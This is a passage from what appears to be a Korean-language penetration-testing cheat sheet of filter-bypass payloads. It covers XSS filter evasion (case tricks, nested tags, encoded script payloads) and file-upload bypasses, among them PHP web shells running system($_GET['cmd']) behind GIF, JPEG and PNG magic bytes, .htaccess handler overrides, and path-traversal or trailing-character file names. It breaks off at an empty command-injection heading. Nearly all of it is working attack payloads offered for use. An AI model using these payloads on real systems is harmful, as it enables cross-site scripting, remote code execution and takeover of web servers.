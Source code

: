 ```bash
length → len, char_length
```

### 🎭 XSS Filter 우회

```bash
# 태그 우회
<script> → <ScRiPt>, <SCRIPT>, <scr<script>ipt>
<img> → <IMG>, <ImG>, <i<img>mg>

# 이벤트 핸들러 우회
onload → OnLoAd, ONLOAD, on/**/load
onerror → OnErRoR, ONERROR, on/**/error

# JavaScript 우회
alert → top['alert'], window['alert'], eval('alert')
alert('XSS') → alert(String.fromCharCode(88,83,83))

# 인코딩 우회
<script>alert('XSS')</script>
%3Cscript%3Ealert('XSS')%3C/script%3E
&#60;script&#62;alert('XSS')&#60;/script&#62;
&lt;script&gt;alert('XSS')&lt;/script&gt;
```

### 🔓 File Upload Filter 우회

```bash
# MIME Type 우회
Content-Type: image/jpeg (웹쉘 파일에)
Content-Type: image/png
Content-Type: image/gif

# Magic Bytes 추가
GIF89a<?php system($_GET["cmd"]); ?>
\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]); ?>  # JPEG
\x89PNG<?php system($_GET["cmd"]); ?>           # PNG

# .htaccess 업로드 (Apache)
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .png
AddType application/x-httpd-php .gif

# 파일명 우회
../../../var/www/html/shell.php
shell.php.
shell.php%20
shell.php%0a
```

### 💾 Command Injection 우회
